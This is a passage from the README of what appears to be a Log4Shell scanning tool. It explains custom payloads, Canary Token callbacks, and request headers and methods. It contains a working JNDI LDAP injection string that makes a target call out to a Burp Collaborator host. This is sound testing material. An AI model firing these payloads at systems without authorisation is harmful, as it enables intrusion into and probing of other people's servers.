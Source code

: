 <details><summary>Topic / Tags</summary></details>

## Readme

 which will be replaced with the target against which the payload is being tested.

e.g. if you supply a command like this:
```js
./lmp -payload '${jndi:ldap://$DNSNAME$.xxx.burpcollaborator.net/a}' vulnerable.site.com
```
Then when sending a HTTP request to the URL, the payload would look like:
```sh
${jndi:ldap://vulnerable-site-com.xxx.burpcollaborator.net/a}
```
This feature would help you evaluate which hosts are vulnerable when doing black-box fuzzing.

You can also specify a payload containing multiple variations of the payload using the same argument. (See [`payloads-sample.txt`](payloads-sample.txt)). Example:
```js
./lmp -payload payloads-sample.txt vulnerable.site.com
```

> __NOTE:__ This feature doesn't work with Canary Tokens. Canarytokens doesn't support custom DNS formats.

### Specifying notification channels
> __NOTE__: If you're supplying a custom payload using `-payload`, specifying a notification channel is __NOT__ necessary. The payload itself should contain your callback server.

The notification channels can be any of the following:
- Email (`-email`)
- Webhook (`-webhook`)
- Custom DNS callback server (`-custom-server`)

The tool makes use of Canary Tokens, you can create one from [here](https://canarytokens.org/generate), or let the tool create a token for you. If the tool creates a token, that will be written to a file named `canarytoken-logmepwn.json`, which will include the token itself and the auth (both of which you'll need to view triggers via the web interface).

If you already have a token, you can use the `-token` argument to use the token directly and not create a new one.

> __NOTE:__ If you supply either an email or a webhook, the tool will create a custom canary token. If you use a custom callback server, tokens do not come into play.

### Sending requests
The tool offers great flexibility when sending requests. By default the tool uses GET requests. A default set of headers are used, each of which contains a payload in its value. You can specify a custom set of headers via the `-headers` argument. You can use the `-headers-file` switch to supply a file containing a list of headers. Examples:
```groovy
./lmp <other args> -headers 'X-Api-Version' 1.2.3.4:8080
./lmp <other args> -headers-file headers.txt 1.2.3.4:8080
```

You can specify the list of HTTP methods to use for scanning via the `-methods` switch. For requests that contain a body, e.g. `POST`, `PUT`, etc, you can customize content of the bodies.
